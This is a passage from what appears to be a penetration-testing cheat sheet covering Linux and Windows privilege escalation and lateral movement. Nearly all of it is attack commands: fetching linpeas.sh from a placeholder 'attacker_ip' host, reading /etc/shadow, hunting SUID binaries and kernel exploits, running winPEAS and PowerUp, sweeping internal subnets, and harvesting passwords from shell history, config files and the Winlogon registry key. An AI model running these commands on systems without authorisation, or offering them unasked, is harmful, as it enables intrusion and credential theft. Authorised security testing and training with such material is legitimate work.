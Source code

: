#### Linux Privilege Escalation
```bash
# Automated enumeration
wget http://attacker_ip:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# Manual checks
sudo -l
cat /etc/passwd
cat /etc/shadow
find / -perm -u=s -type f 2>/dev/null  # SUID binaries
crontab -l
cat /etc/crontab

# Kernel exploits
uname -a
searchsploit linux kernel 4.15
```

#### Windows Privilege Escalation
```powershell
# Automated enumeration
.\winPEAS.exe
.\PowerUp.ps1; Invoke-AllChecks

# Manual checks
whoami /priv
net user
net localgroup administrators
wmic qfe  # Installed patches
sc query  # Running services

# Registry
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall
```

### 5.3 Lateral Movement

#### Network Discovery
```bash
# Discover internal network
arp -a
route -n
netstat -an

# Internal port scan
for i in {1..254}; do ping -c 1 192.168.1.$i & done
nmap -sn 192.168.1.0/24
```

#### Credential Harvesting
```bash
# Linux
cat ~/.bash_history
find / -name "*.conf" -exec grep -l "password" {} \; 2>/dev/null
grep -r "password" /etc/ 2>/dev/null

# Windows
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
findstr /si password *.txt *.xml *.config
```

---